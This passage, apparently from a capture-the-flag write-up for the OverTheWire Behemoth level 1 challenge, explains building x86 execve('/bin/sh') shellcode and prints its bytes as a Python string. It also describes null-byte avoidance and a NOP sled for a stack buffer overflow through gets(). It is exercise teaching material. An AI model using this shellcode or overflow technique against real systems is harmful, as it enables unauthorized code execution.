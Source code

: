 This shellcode pushes the string '/bin/sh' into the stack similarly to the way challenge 1 stored the string 'eatmyshorts'.

It then makes a call to the execve syscall:

> ```c
> #include <unistd.h>
> 
> int execve(const char *pathname, char *const argv[],
>                   char *const envp[]);
> ```

> execve() executes the program referred to by pathname.  This
> causes the program that is currently being run by the calling
> process to be replaced with a new program, with newly initialized
> stack, heap, and (initialized and uninitialized) data segments.

the linux-x86 calling convention for syscall is:

1. syscall number - eax, can be easily checked online [here](https://chromium.googlesource.com/chromiumos/docs/+/HEAD/constants/syscalls.md#x86-32_bit) for instance
2. arg1 - ebx, arg2 - ecx, arg3 - edx. Further args are also availble but irrelevant to us. 

we compile the shellcode with `nasm -f elf shellcode.asm` which gets us `shellcode.o`,we then link the file with `ld shellcode.o -o shellcode` on a x86 linux machine, or `ld -m elf_i386 shellcode.o -o shellcode` on a x64 machine like the one in Behemoth.

We can then extract the shellcode from the binary by calling `objdump -d shellcode` (the shellcode is inside the red rectangle):

![Behemoth1-shellcodeHex](/Users/saardrori/Library/Mobile Documents/com~apple~CloudDocs/Code/Projects/saardr.github.io/assets/images/OtwBehemoth/Behemoth1-shellcodeHex.png)

Copy the bytes into a python string (or whatever other language you want to use) be prepending \x before every byte in the string. i.e. the shellcode in python form is 

``` python
shellcode = b''.join([b"\x68\x2f\x73\x68\x00", 
                    b"\x68\x2f\x62\x69\x6e",
                    b"\x89\xe3",
                    b"\x31\xc9",
                    b"\x31\xd2",
                    b"\xb8\x0b\x00\x00\x00",
                    b"\xcd\x80"])
```

__Important:__ please note that gets() accepts null bytes without trouble which is why the shellcode is fine, other methods of input may not do so however. One way to work around that in this instance, would be to replace `mov eax, 11` with

```assembly
xor eax, eax
xor eax, 11
```

 to avoid null bytes in the shellcode. (feel free to compile and check for yourselves)

Although the base address of the stack won't change, some other information such as the working directory or other environment variables can change by us by mistake, to compensate for that, we can pad the buffer with `NOP (0x90)` instructions, which do nothing. that way if we accidently land in `buffer[20]` instead of `buffer[0]` we will still be find, as we will just slide in the nopslide until we hit our shellcode:
